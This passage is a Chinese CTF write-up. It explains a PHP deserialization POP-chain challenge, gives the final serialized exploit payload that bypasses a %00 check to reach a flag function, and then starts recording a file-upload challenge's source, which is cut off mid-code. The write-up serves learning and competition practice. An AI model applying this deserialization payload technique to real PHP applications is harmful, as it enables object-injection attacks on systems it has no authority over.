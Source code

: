 这是我按照pop链的顺序推出来EXP,改在上面,我个人喜欢用`__construct()`方法传递对象或给参数赋值,网上大部分是那个什么创建完对象后再传来传去.那个`->`看得我是又臭又长.个人爱好,勿喷

这里出题人还给了个恶心你的点`if($pass!=null&&!preg_match("/\x{00}/i",$pass))`

这个正则说人话就是匹配`%00`.

为什么会序列化后出现`%00`,这个你自己去找资料或者是学习一下反序列化漏洞入个门先,别急着就会写题

我在代码注释后面写了资料~,自己看吧!

最终Payload: 

`O:5:"rank4":1:{s:3:"r4a";O:5:"rank2":1:{s:3:"r2a";O:5:"rank1":2:{s:3:"r1a";O:5:"rank3":2:{S:12:"\00rank3\00admin";s:3:"r3a";S:9:"\00*\00passwd";s:3:"r3b";}s:3:"r1b";s:7:"Getflag";}}}`

> #### upup

~~只需要一点小小的审计，详情代码看附件噢~~

最后一题也算是我这次校赛的遗憾吧,一个是时间太紧张了,没那么多时间用来打CTF,可能也是自己代码审计这块确实low(需要补强)另一个是勾巴服务器有点问题,这个也不怪,之前就一直这种外带和反弹shell的题见的少,每次都觉得留在后面写,后面发现遇到的也多了,再慢慢学吧

源码先记录下;

```php
<?php
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Headers: Origin, X-Requested-With, Content-Type, Accept, Authorization");
header('Access-Control-Allow-Methods: GET, POST, PUT,DELETE,OPTIONS,PATCH');

class Server{

    const DS = '/';

    protected $config = [];

    protected $runtime_path;

    /**
     * 初始化
     * @param array $config
     */
    public function __construct(array $config = [])
    {
        // 默认配置
        $default = [
            'token' => '',
            'chunks_path' => '/chunks/',
            'upload_path' => '/upload/',
            'min_file_size' => 2 * 1024 * 1024
        ];
        // 获取配置信息
        $this->config = array_merge($default,$config);

        // 运行目录
        $this->runtime_path = $this->getFitSeparator(__DIR__);

    }


    /**
     * 构建器
     * @param $config
     */
    public static function create($config){
        try {
            (new self($config))->start();
```